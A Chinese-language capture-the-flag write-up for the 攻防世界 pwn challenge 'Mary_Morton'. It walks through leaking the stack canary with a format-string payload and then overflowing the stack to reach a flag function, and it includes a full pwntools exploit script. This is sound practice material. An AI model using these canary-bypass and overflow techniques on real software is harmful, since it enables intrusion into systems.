




***
## 题目信息
攻防世界：Mary_Morton
***
## 题解
入手checksec和file一下

运行测试

根据回显和提示，猜测应该是先用格式化字符串漏洞爆出canary的值，然后用栈溢出拿shell
首先先尝试`AAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p`来爆出输入字符在参数中的位置

从图中可以看出，输入字符在第6个参数
把程序进行逆向解析

输入的字符占17个字节，那么canary的位置就是第17+6=23个参数的位置
所以可以使用`%23$p`的payload来爆破canary的值，之后利用栈溢出，将canary插入到payload当中就可以
下面是exp
```
from pwn import *

context.log_level = 'debug'
p = process('Mary_Morton')

flag = 0x004008da

p.recv()
p.sendline(b'2')
#gdb.attach(p, 'b *0x004008f6')
#pause()
payload = b'%23$p'
p.sendline(payload)
p.recvuntil('0x')
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
print(hex(canary))
p.sendline(b'1')
payload = b'A' * 0x88 + p64(canary) + b'A' * 0x8 + p64(flag)
p.send(payload)
p.interactive()
```
嘿嘿
***
## 总结
1、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
2、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```